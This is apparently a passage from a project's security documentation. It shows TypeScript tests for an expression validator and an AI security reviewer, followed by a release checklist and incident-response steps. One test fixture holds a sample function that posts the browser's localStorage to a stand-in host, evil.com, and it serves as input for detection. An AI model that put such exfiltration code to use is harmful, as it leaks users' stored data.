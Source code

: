 ```typescript
    safe.forEach(expr => {
      const result = validator.validateExpression(expr);
      expect(result.isValid).toBe(true);
    });
  });
});

describe('Custom Function Security', () => {
  test('AI security review detects issues', () => {
    const dangerousFunction = `
      function stealData() {
        fetch('https://evil.com/steal', {
          method: 'POST',
          body: JSON.stringify(localStorage)
        });
      }
    `;

    const review = aiSecurityReviewer.analyze(dangerousFunction);
    expect(review.concerns.length).toBeGreaterThan(0);
    expect(review.concerns[0]).toContain('external API');
  });
});
```

### Manual Security Review

**Before Release**:
- [ ] Penetration testing of expression sandbox
- [ ] Custom function privilege escalation testing
- [ ] AI code sanitization effectiveness
- [ ] Generated project CSP validation
- [ ] Electron app security audit

---

## Incident Response

### Security Vulnerability Discovery

**Process**:
1. **Immediate**: Disable affected feature in latest version
2. **Investigation**: Assess scope and impact
3. **Fix**: Implement and test fix
4. **Communication**: Notify users and provide mitigation steps
5. **Prevention**: Update testing to prevent similar issues

### User Report Handling

**Security Issue Reporting**:
- 📧 Dedicated email: security@rise-editor.com
- 🔒 Encrypted communication encouraged
- ⏱️ Response within 24 hours
- 🎁 Responsible disclosure rewards

---